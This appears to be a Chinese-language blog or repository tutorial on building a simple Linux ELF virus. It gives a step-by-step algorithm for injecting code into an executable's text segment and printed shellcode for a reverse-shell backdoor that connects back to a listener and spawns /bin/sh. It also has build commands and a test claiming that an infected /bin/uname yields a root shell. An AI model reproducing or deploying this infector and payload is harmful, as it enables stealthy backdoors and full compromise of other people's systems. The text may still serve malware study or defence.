






# 简易Linux的ELF病毒

## 1.原理

ELF = Executable and Linkable Format，可执行连接格式，是UNIX系统实验室（USL）作为应用程序二进制接口（Application BinaryInterface，ABI）而开发和发布的，也是Linux的主要可执行文件格式。

Executable and linking format(ELF)文件是x86 Linux系统下的一种常用目标文件(object file)格式，有三种主要类型:

* 适于连接的可重定位文件(relocatable file)，可与其它目标文件一起创建可执行文件和共享目标文件。

* 适于执行的可执行文件(executable file)，用于提供程序的进程映像，加载的内存执行。

* 共享目标文件(shared object file),连接器可将它与其它可重定位文件和共享目标文件连接成其它的目标文件，动态连接器又可将它与可执行文件和其它共享目标文件结合起来创建一个进程映像。

Linux的ELF病毒的原理跟Windows的PE病毒原理是类似的。首先把ELF文件把插入ELF文件中，然后把程序入口定位到病毒代码，等到病毒代码执行完毕后，把程序的控制权归还给宿主程序。

ELF文件格式说明地址：[http://www.cnblogs.com/xmphoenix/archive/2011/10/23/2221879.html](http://www.cnblogs.com/xmphoenix/archive/2011/10/23/2221879.html)

ELF病毒原理：[http://linux.chinaunix.net/techdoc/system/2009/04/30/1109647.shtml](http://linux.chinaunix.net/techdoc/system/2009/04/30/1109647.shtml)

以下是病毒感染器算法，源自《UNIXELF Parasites and virus》：

1. 检测文件文件是否是ELF格式的可执行文件,如果否那么返回
2. 在病毒程序的某偏移位置打上设置真实地址的地址的补丁（该偏移位置需要通过反汇编得到的该位置的内存地址减去-病毒代码的内存起始位置）
3. 查找到该文件的Text Segment的结尾是否有足够的剩余空间能够容下病毒代码,如果否，那么返回
4. 把病毒的长度填充到PAGE_SIZE
5. 修改该Text Segment的 p_filesz和 p_memsz加上病毒代码实际的长度(而不是填充到的PAGE_SIZE)
6. 修改程序入口指向病毒程序的入口(p_vaddr + 上面更新后的p_filesz)
7. 给所有地址在病毒代码后面的Segment的p_offset加上PAGE_SIZE
8. 查找指向Text Segment的结尾的Section,使该Section的sh_size加上病毒代码的长度
9. 给所有地址在病毒代码后面的Section的p_offset加上PAGE_SIZE
10. 修改elf头结构里的e_shoff加上PAGE_SIZE
11. 创建一个临时文件拷贝上面的修改过的结构和原有的数据,并且在TextSegment的结尾插入病毒代码
12. 把该临时文件的所有者属性和权限属性用chown和chmod改成和该文件的一致，然后用rename替换该文件。

## 2. 相关代码

ELF文件感染器的源代码文件是efl_insfect.c，其中变量parasite存着病毒代码，变量plength为病毒代码长度，变量hentry为返回宿主的返回地址的偏移量，这偏移量是相对病毒代码的偏移量，变量entry为病毒入口的偏移量，是相对病毒代码的偏移量。变量special_code为特征码。

病毒源代码代码文件为door.s，该文件是使用汇编写的后们程序，汇编不是使用Intel风格，是使用 AT&T 格式。

因为病毒不能直接调用C语言函数，在Linux的底层是通过中断的方式调用系统调用，中断号80h，该中断有些参数，EAX存着系统调用号，每个系统调用都有自己的系统调用号，EBX，ECX，EDX，ESI，EDI为系统调用的参数。例如调用exit(1)，代码如下：

```assembly
movl  $1, %ebx  #exit系统调用
movl $1, %eax  #exit系统调用号为1
int $0x80
```

尽管病毒是使用汇编写，其实病毒比较简单，是一个**socket后门，是一个反弹后门**。

接下来编译一下door.s：

```
as -o door.o door.s
```

生成door.o文件，是一个未链接的程序，不可执行，但是可以通过反汇编提取机器码，命令：

```
objdump -d door.o
```

提取出来的机器码如下：

```c
"\x50\x53\x51\x52\x55\x89\xe5\x83\xec\x60\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x0f\x85\xff\x00\x00\x00\xc7\x44\x24\x08\x00\x00\x00\x00"
"\xc7\x44\x24\x04\x01\x00\x00\x00\xc7\x04\x24\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xbb\x01\x00\x00\x00\x89\xe1\xcd\x80\x89\x44\x24\x14\x83"
"\xf8\x00\x0f\x88\xc4\x00\x00\x00\xc7\x44\x24\x18\x10\x00\x00\x00\xc7\x44\x24\x1c\x00\x00\x00\x00\xc7\x44\x24\x20\x00\x00\x00\x00\xc7\x44"
"\x24\x24\x00\x00\x00\x00\xc7\x44\x24\x28\x00\x00\x00\x00\x66\xc7\x44\x24\x1c\x02\x00\xc7\x44\x24\x20\x7f\x00\x00\x01\x66\xc7\x44\x24\x1e"
"\x1f\x90\x8b\x44\x24\x18\x89\x44\x24\x08\x8d\x44\x24\x1c\x89\x44\x24\x04\x8b\x44\x24\x14\x89\x04\x24\xb8\x66\x00\x00\x00\xbb\x03\x00\x00"
"\x00\x89\xe1\xcd\x80\x83\xf8\x00\x78\x5c\xb9\x00\x00\x00\x00\x8b\x5c\x24\x14\xb8\x3f\x00\x00\x00\xcd\x80\xb9\x01\x00\x00\x00\x8b\x5c\x24"
"\x14\xb8\x3f\x00\x00\x00\xcd\x80\xb9\x02\x00\x00\x00\x8b\x5c\x24\x14\xb8\x3f\x00\x00\x00\xcd\x80\xc7\x45\xec\x2f\x62\x69\x6e\xc7\x45\xf0"
"\x2f\x73\x68\x00\x8d\x7d\xec\x89\x7d\xf8\xc7\x45\xfc\x00\x00\x00\x00\xb8\x0b\x00\x00\x00\x89\xfb\x8d\x4d\xf8\xba\x00\x00\x00\x00\xcd"
"\x80\x89\xc3\xb8\x01\x00\x00\x00\xcd\x80\x83\xc4\x60\x5d\x5a\x59\x5b\x58\x68\x78\x56\x34\x12\xc3"
```

还有一个后门的服务器，代码为server.c，进行编译：

```
gcc server.c -o server
```


## 3. 测试

运行server：

```
./servwer
```



我感染/bin/uname程序为例子，为了以免破坏了原来uame程序，我把uname复制出来，看看能不能运行。



可以看出可以运行。

接下来运行ELF病毒感染器：

就这样病毒感染完毕。

接下来再运行一下uname：



可以看出uname可以正常运行，并且可以看到服务器server有了反应，说明病毒代码是有运行的，接下来就可以操作后门了。

如果被感染的程序以超级用户的权限运行后会这样的。



可以看出这个反弹后门获得了root权限了。